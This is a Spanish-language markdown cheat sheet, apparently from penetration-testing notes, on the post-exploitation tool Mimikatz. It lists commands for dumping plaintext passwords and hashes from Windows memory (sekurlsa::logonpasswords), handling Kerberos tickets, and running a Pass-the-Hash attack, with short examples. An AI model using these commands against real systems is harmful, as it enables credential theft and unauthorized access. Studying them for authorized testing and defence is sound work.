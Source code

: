 ### **Explotación de Active Directory/Mimikatz.md**

# Mimikatz

## Descripción

`Mimikatz` es una herramienta de post-explotación utilizada para extraer credenciales de memoria en sistemas Windows. Permite obtener contraseñas en texto plano, hashes, PINs y tickets Kerberos, facilitando ataques como Pass-the-Hash y Pass-the-Ticket.

## Uso

```bash
mimikatz [comandos]
```

### Opciones principales

- `privilege::debug`: Obtiene privilegios de depuración necesarios.
- `sekurlsa::logonpasswords`: Extrae las contraseñas de los usuarios.
- `kerberos::tickets`: Gestiona los tickets Kerberos.
- `sekurlsa::pth`: Realiza ataques Pass-the-Hash.
- `exit`: Salir de Mimikatz.

## Ejemplos

- Iniciar Mimikatz y obtener privilegios de depuración:
  
  ```bash
  mimikatz.exe
  privilege::debug
  ```

- Extraer contraseñas de los usuarios:
  
  ```bash
  sekurlsa::logonpasswords
  ```

- Realizar un ataque Pass-the-Hash:
  
  ```bash
  sekurlsa::pth /user:usuario /domain:dominio /ntlm:HASH
  ```
